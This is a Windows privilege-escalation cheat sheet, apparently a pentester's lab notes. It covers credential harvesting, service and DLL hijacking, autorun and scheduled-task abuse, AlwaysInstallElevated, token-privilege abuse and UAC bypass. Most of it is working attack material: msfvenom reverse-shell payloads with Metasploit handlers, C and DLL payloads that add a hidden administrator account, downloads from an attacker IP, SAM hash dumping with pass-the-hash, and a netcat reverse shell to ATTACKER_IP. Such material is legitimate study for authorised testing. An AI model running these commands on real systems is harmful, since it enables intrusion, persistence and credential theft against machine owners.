# Windows Privilege Escalation

1. Enumerating Windows
2. Harvesting Password
   * Unattended Windows Installations&#x20;
   * PowerShell History
   * Saved Windows Credentials
   * IIS Configuration (web.config)
3. Abuse Windows Services
   * Hijack service binaries (Permissions on Service Executable)
   * Hijack service DLLs
   * Insecure Service Permissions
   * Unquoted service paths
4. Abusing other Windows components
   * Scheduled Tasks
   * AlwaysInstallElevated
5. Windows Privileges
   * SeBackup / SeRestore
   * SeTakeOwnership
   * SeImpersonate / SeAssignPrimaryToken
6. Privilege Escalation Scripts
   1. PowerUp
   2. privesc Check

***

## Enumerating Windows

* Username and hostname

```powershell
Get-LocalUser
```

* Group memberships of the current user

```powershell
Get-LocalGroupMember <group name>
```

* Existing users and groups

```powershell
Get-LocalGroup
```

* Operating system, version and architecture

```powershell
systeminfo
```

* Network information

```
ipconfig /all
route print
netstat -ano
```

* Installed applications

```powershell
$paths = @(
  "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*",
  "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"
)

Get-ItemProperty $paths | Select-Object DisplayName, DisplayVersion, Publisher | Sort-Object DisplayName

```

* Running processes

```powershell
Get-Process
```

* Hidden in Plain View  (   بدور علي ملفات فيها باسورد  )

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx,*.kdb -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

* Information Goldmine PowerShell
* Start-Transcript

```powershell
(Get-PSReadlineOption).HistorySavePath
```

```powershell
$path = @(
    (Get-PSReadlineOption).HistorySavePath
)
type $path
```

#### Automated Enumeration





## Harvesting Password

#### **Unattended Windows Installations**&#x20;

#### Path file

```
C:\Unattend.xml

C:\Windows\Panther\Unattend.xml

C:\Windows\Panther\Unattend\Unattend.xml

C:\Windows\system32\sysprep.inf

C:\Windows\system32\sysprep\sysprep.xml
```


```
cat C:\Windows\Panther\Unattend.xml
```


<figure><figcaption></figcaption></figure>


the password in encoded


#### Decoding administrator password using Powershell


```
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
```


<figure><figcaption></figcaption></figure>

#### PowerShell History

Step 1 : query powershell history

cmd

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

powershell

```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

<figure><figcaption></figcaption></figure>

Step 2 : use credential&#x20;

<figure><figcaption></figcaption></figure>

#### Saved Windows Credentials

**Step 1 :** list saved credentials

```
cmdkey /list
```

<figure><figcaption></figcaption></figure>

* use credentials with

```
runas /savecred /user:THM\Admin cmd
```

<figure><figcaption></figcaption></figure>

#### IIS Configuration (web.config)

* path file

```
C:\inetpub\wwwroot\web.config

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

* search string&#x20;

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

#### PUTTY

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## **Abuse Windows Services**

* **Hijack service binaries**
* **Hijack service DLLs**
* **Insecure Service Permissions**
* **Unquoted service paths**
* **Registry AutoRun**

### Hijack service binaries **(Permissions on Service Executable)**

#### **Step 1 :** Identify vulnerable service

* list of Running service

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

<figure><figcaption></figcaption></figure>

#### **Step 2 :** Analyze service permissions

* enumerate the permissions on both service binaries (F, M)

| Mask                                      | Permissions             |
| ----------------------------------------- | ----------------------- |
| <mark style="color:$danger;">**F**</mark> | Full access             |
| <mark style="color:$danger;">**M**</mark> | Modify access           |
| RX                                        | Read and execute access |
| R                                         | Read-only access        |
| W                                         | Write-only access       |

```powershell
icacls  "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe" 
Get-Acl "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe" | Format-List
```

<figure><figcaption></figcaption></figure>

#### **Step 3 :** Modify the service configuration&#x20;

#### **scenario 1** &#x20;

1. Generating a malicious executable using msfvenom


```shellscript
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker Kali Machine's IP> LPORT=4444 -f exe > 'FileZilla Server.exe'
```


<figure><figcaption></figcaption></figure>

2. Start the Python Simple HTTP server to serve the malicious executable.


```
python3 -m http.server 80
```


<figure><figcaption></figcaption></figure>

3. Start msfconsole and run multi handler.


```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Attacker Kali Machine's IP>
set LPORT 4444
set InitialAutoRunScript post/windows/manage/migrate
exploit
```


<figure><figcaption></figcaption></figure>

4. Download the malicious executable from the Kali machine and overwrite the existing "FileZilla Server.exe" in the "C:\Program Files (x86)\FileZilla Server" directory.


```powershell
iwr -UseBasicParsing -Uri 'http://<Attacker Kali Machine's IP>/FileZilla Server.exe' -OutFile 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe'
ls 'C:\Program Files (x86)\FileZilla Server'
```


<figure><figcaption></figcaption></figure>

#### **Step 4 : Restart the service**


if you don't have permission to restart service reboot a system

Shutdown /r /t 0



```
sc.exe start 'FileZilla Server'
sc.exe query 'FileZilla Server'
```


<figure><figcaption></figcaption></figure>

#### POC

<figure><figcaption></figcaption></figure>

#### scenario 2  :

1. create a small binary to replace the original file


```c
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("net user dave2 password123! /add");
    i = system ("net localgroup administrators dave2 /add");
    return 0;
}
```


2. compiled it&#x20;

```shell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

<figure><figcaption></figcaption></figure>

5. Download the malicious executable

<pre class="language-powershell"><code class="lang-powershell"><strong>move 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe' 'FileZilla Server.exe.bkp'
</strong>iwr -UseBasicParsing -Uri 'http://10.10.50.12/FileZilla Server.exe' -OutFile 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe'
icacls 'FileZilla Server.exe' /grant Everyone:F
</code></pre>

<figure><figcaption></figcaption></figure>

#### Automated tool to find vulnerable service&#x20;


**/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .**


<figure><figcaption></figcaption></figure>

***

### Service DLL Hijacking

#### **DLL search-order**

* The application’s directory.
* The system directory (e.g. `C:\Windows\System32`).
* The Windows directory.  (`C:\Windows\`)
* The current working directory.
* Directories listed in the `PATH` environment variable (`$env:path`)

#### **exploitation cases**

* <mark style="color:$success;">**Missing DLL:**</mark> The application tries to load a DLL that isn’t present. If an attacker can place a DLL with that exact name in a directory the application searches, the app may load and execute that malicious DLL.
* <mark style="color:$success;">**Writable existing DLL**</mark>**:** The target DLL exists but the attacker (or a low-privilege user) can overwrite it. Replacing the legitimate DLL with a malicious one can cause code execution when the application loads it.
* <mark style="color:$success;">**Service runs from a non-System32 or writable folder**</mark>**:** Services whose executables and DLLs reside outside `C:\Windows\System32` (or in a directory where unprivileged users can write) are higher-risk—an attacker who can write to those folders may place or replace DLLs to achieve execution under the service’s privileges

#### **Structure of DLL**

<mark style="color:red;">DLL\_PROCESS\_ATTACH:</mark> is used when a process is loading the DLL

```cpp
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### payload

```cpp
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user dave2 password123! /add");
        i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

**compiled it**&#x20;

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

#### Exploitation

**Step 1 :** Run the process monitoring application present on the Desktop **(Procmon64)**.


***

### Insecure Service Permissions

* Every Windows service has a **Service DACL** that controls who can manage or reconfigure the service.
* If a low-privileged user has **SERVICE\_ALL\_ACCESS**, they can modify the service configuration

#### Check Service Permissions

```
accesschk64.exe -qlc <service_name>
```

Look for:

```
BUILTIN\UsersSERVICE_ALL_ACCESS
```

#### Exploitation Steps

1. Generate an `exe-service` payload.
2. Upload the payload to the target.
3. Grant execute permissions if required.
4. Reconfigure the service:

```
sc config <service_name> binPath= "<payload_path>" obj= LocalSystem
```

5. Restart the service:

```
sc stop <service_name>sc start <service_name>
```

***

### Unquoted Service Paths

example with the unquoted service binary path

&#x20;"**C:\Program Files\My Program\My Service\\**<mark style="color:yellow;">**service.exe**</mark>**"**

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

1. find unquoted service&#x20;

```powershell
Wmic service get name,pathname | findstr /i /v "C:\Windows\\"| findstr /i /v """"
```

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

2. check if we can start and stop the identified service

```powershell
Start-Service service
Stop-Service service
```

3. check our access rights in these paths with icacls

```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\My Program"  #BUILTIN\Users:(OI)(CI)(RX,W) 
icacls "C:\Program Files\My Program\My service"
```


if you have access in this path create payload first name of  path (My.exe)


4. create payload (adduser.c)

```c
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("net user dave2 password123! /add");
    i = system ("net localgroup administrators dave2 /add");
    return 0;
}
```

5. download payload and replace it&#x20;

```powershell
iwr -uri http://<IP>/adduser.exe -Outfile My.exe
copy .\My.exe "C:\Program Files\My Program\My.exe"
```

6. finally start service

```powershell
Start-Service service
```

### **Registry AutoRun**

* Attackers can leverage insecure configurations or weak permissions in these registry keys to execute malicious code with elevated privileges

#### Step 1 : Start autoruns.exe utility


Wait for the scanning and switch tab to **“Logon”**


<figure><figcaption></figcaption></figure>

#### Step 2 : Verify that the student user has the writing permissions on the <mark style="color:$danger;">**`HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`**</mark> registry.


```
Get-ACL -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' | Format-List
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


The  user can modify the registry. We could set an additional malicious executable path to the registry or we could overwrite the hfs.exe binary


#### **Step 4:** Verifying the permissions on <mark style="color:$danger;">`"C:\Program Files\HTTPServer\hfs.exe"`</mark>.


```powerquery
Get-ACL "C:\Program Files\HTTPServer\" | Format-List
```


<figure><figcaption></figcaption></figure>


* We could only read and execute in this folder - "C:\Program Files\HTTPServer"&#x20;
* We will be adding a new registry with the attacker’s malicious executable.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                &#x20;


#### &#x20;Step 5 : **Step 7:** Generating a malicious executable using msfvenom.


```shellscript
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.46.2 LPORT=4444 -f exe > program.exe
```


<figure><figcaption></figcaption></figure>

#### **Step 8:** Start Python Simple HTTP server to serve the malicious executable.


```
python3 -m http.server 80
```


<figure><figcaption></figcaption></figure>

**Step 9:** Open a new terminal, Start msfconsole and Run multi handler.


```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.46.2
set LPORT 4444
exploit
```


<figure><figcaption></figcaption></figure>

**Step 10:** Download the malicious exe from the kali machine&#x20;


```powershell
iwr -UseBasicParsing -Uri http://10.10.31.2/program.exe -OutFile ‘C:\Users\student\Desktop\tool\program.exe’
```


<figure><figcaption></figcaption></figure>

#### **Step 5:** Creating a registry with an executable path.


```powershell
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v MyProgram /t REG_SZ /d "C:\Users\student\Desktop\tool\program.exe"
```


<figure><figcaption></figcaption></figure>


When any user signs out and re-login again we would expect a meterpreter session.


Step 23 :  signs out and re-login

```powershell
shutdown /l
```

***

## Abusing Other Windows Components

* Scheduled Tasks
* AlwaysInstallElevated
* Using Exploits

### Scheduled Tasks

identify possible privilege escalation vectors

* As which user account (principal) does this task get executed? <mark style="color:$success;">(Run As User)</mark>
* What triggers are specified for the task <mark style="color:$success;">(Next Run Time)</mark>
* What actions are executed when one or more of these triggers are met <mark style="color:$success;">(Task To Run)</mark>

1. list of Scheduled Tasks&#x20;

```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv |
  Select-Object TaskName,'Next Run Time',Author,'Task To Run' |
  Format-Table -AutoSize
```

```powershell
schtasks /query /fo LIST /v | findstr /R /C:"TaskName" /C:"Next Run Time" /C:"Author" /C:"Task To Run"  /C:"Run As User"
```

2. check permission&#x20;

```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

3. download and change exe file

```powershell
iwr -Uri http://<IP>/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```

### AlwaysInstallElevated

* **AlwaysInstallElevated** is a Windows policy that allows **`.msi` installer files** to run with **elevated (Administrator) privileges**, even when launched by a **non-administrator user**.
* This is a **misconfiguration** that can lead to **Privilege Escalation**.

#### Check if it's enabled

Both registry keys **must** be set to `1`:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If **both** return:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

the system is vulnerable.

#### Exploitation Steps

1. Generate a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f msi -o malicious.msi
```

2. Transfer the MSI file to the target.
3. Start a Metasploit handler (or another listener).
4. Execute the installer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

5. Receive a reverse shell running with **Administrator** privileges.

***

## Windows Privileges

### SeBackup / SeRestore

* **SeBackupPrivilege** allows reading any file while bypassing file DACLs.
* **SeRestorePrivilege** allows writing/restoring files while bypassing DACLs.
* Commonly assigned to the **Backup Operators** group.

#### Check Privileges

```
whoami /priv
```

#### Save Registry Hives

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

#### Extract Password Hashes

```
secretsdump.py -sam sam.hive -system system.hive LOCAL
```

#### Pass-the-Hash

```
psexec.py -hashes <LMHASH>:<NTHASH> administrator@<TARGET_IP>
```

### SeTakeOwnership

* Allows a user to **take ownership** of any file, folder, registry key, or other object.
* After becoming the owner, the user can **modify the ACL** and grant themselves **Full Control**.

#### Check Privilege

```
whoami /priv
```

#### Take Ownership

```
takeown /f C:\Windows\System32\Utilman.exe
```

#### Grant Full Control

```
icacls C:\Windows\System32\Utilman.exe /grant <username>:F
```

#### Replace Utilman

```
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

#### Exploitation

1. Lock the workstation.
2. Click the **Ease of Access** button on the logon screen.
3. `cmd.exe` is executed instead of `Utilman.exe`.
4. A command prompt opens with **NT AUTHORITY\SYSTEM** privileges

### SeImpersonate&#x20;

#### scenario 1 : **Juicy Potato**

**Step 1:** Generating Metasploit malicious win executable


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.46.4 LPORT=4444 -f exe >backdoor.exe
```


<figure><figcaption></figcaption></figure>

**Step 2:** Upload backdoor.exe and JuicyPotato.exe.


```
upload /root/backdoor.exe .
upload /root/Desktop/tools/JuicyPotato/JuicyPotato.exe .
```


<figure><figcaption></figcaption></figure>

**Step 3:** Open another terminal and run Metasploit multi handler.

```shellscript
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.46.4
set LPORT 4444
exploit
```


We need CLSID in order to escalate the current privilege to the NT system.

“A CLSID is a globally unique identifier that identifies a COM class object.”

**Source:** \[https://docs.microsoft.com/en-us/windows/win32/com/clsid-key-hklm]

We can find all CLSID for Windows Server 2016:


<figure><figcaption></figcaption></figure>

**Step 4:** Escalate privilege to the system using JuicyPotato.exe.


```shell
shell
C:\Users\Public\JuicyPotato.exe -l 4444 -p C:\Users\Public\backdoor.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```


<figure><figcaption></figcaption></figure>

**Step 5:** Check the Metasploit multi handler for the new meterpreter session.

<figure><figcaption></figcaption></figure>

#### scenario 2 : PrintSpoofer

1. check privilege

```
whoami /priv
```

2. download (printspoofer64.exe)

```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
wget https://github.com/antonioCoco/RogueWinRM/blob/master/RogueWinRM.cpp
```

```powershell
iwr -uri http://<IP>/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

3. exploit

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

```
.\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

### **UAC Bypass**

#### Scenario 1 : from Meterpreter Session

**Step 1:** check if the admin user is a member of the Administrators group.

```
net localgroup administrators
```

<figure><figcaption></figcaption></figure>

**Step 2 :** Generating malicious executable using msfvenom

```shellscript
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > 'backdoor.exe'
```

<figure><figcaption></figcaption></figure>

**Step 3 :** upload the Akagi64.exe and backdoor.exe executable.

```shellscript
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
```

<figure><figcaption></figcaption></figure>

**Step 4 :** Start another msfconsole and run a multi handler.

```shellscript
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.31.2
set LPORT 4444
exploit
```

<figure><figcaption></figcaption></figure>

**Step 14:** Switch back to the meterpreter and run the Akagi64.exe executable.

```shell
shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

<figure><figcaption></figcaption></figure>


We have successfully gained high privilege access. Dump the user hashes.


***

## Privilege Escalation Scripts

### powerUp&#x20;

#### **Clear-text Password**

&#x20;**Step 1 :** We will run the powerup.ps1 Powershell script to find privilege escalation vulnerability.


```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
```



```powershell
reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /v DefaultUserName
reg query 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' /v DefaultPassword
